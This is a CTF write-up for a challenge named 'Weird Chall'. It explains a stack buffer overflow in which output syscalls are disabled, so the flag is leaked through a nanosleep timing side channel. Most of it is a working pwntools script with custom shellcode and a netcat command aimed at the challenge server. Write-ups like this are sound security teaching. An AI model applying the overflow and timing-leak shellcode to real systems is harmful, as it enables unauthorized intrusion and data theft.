 ### 0x00 Challenge: Weird Chall
**Description:**
>This is a slightly different challenge.
>
>nc 168.119.247.237 5013

### 0x01 Write-up:
It is a typical buffer overflow which is not much realistic since X is disabled... The difference between a simple bof and this challenge is this one has disabled the write syscall (and other), thus, you can run your own code but you can not print anything. If you look the assembly code of the binary, you can see that one of the syscall that are allowed is sys_nanosleep, so, you can imagine how to solve this challenge.

Basically the way to solve this challenge is developing your own shellcode that compares character by character by bruteforce the flag (that is in memory) and making a delay in order to know if the character is the good one.

**Exploit:**
```python
from pwn import *
import time
import os

context(arch = 'amd64', os = 'linux')

context.terminal = ["tmux", "splitw", "-h"]

end_flag = '}'
flag = ""
x = -8
lastchar = 'x'

while end_flag != lastchar:
    for i in string.printable:
        start = time.time()
        shellcode = '''
                xor rdx, rdx
                mov edx, %s
                mov rsi, %s
                mov al, byte ptr [r13 + rsi + 8]
                cmp rax, rdx
                jnz exit
                xor r11, r11
                mov r11d, 0
        delay:
                push 0
                push 5
                mov rsi, rsp
                mov rdi, rsi
                mov esi, 0
                mov al, 35
                syscall
        exit:
                xor rdi, rdi
                mov al, 60
                syscall
        '''%(hex(ord(i)), hex(x))
        f = open("input_pwn", "wb")
        f.write(b"A"*72 + p64(0x00000000004011c2) + asm(shellcode)+b"\x0a")
        f.close()
        log.info("Trying: %s"%i)
        os.system("cat input_pwn | nc 168.119.247.237 5013")
        end = time.time()
        if ((end - start) > 2.0):
            x+=1
            log.success("Found: %s"%i)
            lastchar = i
            flag = flag + i
            break
log.success("Flag: %s"%flag)
```
